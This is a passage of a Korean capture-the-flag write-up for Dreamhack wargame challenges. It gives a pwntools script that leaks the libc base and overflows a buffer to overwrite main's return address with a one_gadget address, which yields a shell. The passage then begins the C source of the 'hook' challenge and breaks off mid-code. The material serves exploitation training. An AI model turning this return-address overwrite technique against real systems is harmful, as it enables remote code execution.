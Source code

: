 - `msg` -> 0x10 bytes
- dummy -> 0x8 bytes
- `check` -> 0x8 bytes
- sfp -> 0x8 bytes
- return address -> 0x8 bytes

### Exploit

`**main`의 return address를 one_gadget의 주소로 overwrite한다.**

```python
from pwn import *

p = remote("host3.dreamhack.games", 9713)
libc = ELF("./libc.so.6")

p.recvuntil("stdout: ")
libc_base = int(p.recvline()[:-1], 16) - libc.symbols["_IO_2_1_stdout_"]
og = libc_base + 0x4526a

p.recvuntil("MSG: ")
payload = b"A"*(0x10 + 0x8)
payload += p64(0) # check이 0인지 검사하는 코드를 bypass하기 위함
payload += b"A"*0x8
payload += p64(og)
p.sendline(payload)

p.interactive()
```

- 주의할 점으로, `libc_base`를 구할 때 빼주는 값을 `libc.symbols["stdout"]`로 입력하면 안된다. gdb를 통해 정확한 이름을 확인하면 `"_IO_2_1_stdout_"`이 사용되고 있음을 알 수 있다.

## Wargame: [hook](https://dreamhack.io/wargame/challenges/52/)

문제의 소스 코드는 아래와 같다.

```c
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>

void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}

void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    signal(SIGALRM, alarm_handler);
    alarm(60);
}

int main(int argc, char *argv[]) {
    long *ptr;
    size_t size;

    initialize();

    printf("stdout: %p\n", stdout);

    printf("Size: ");
```
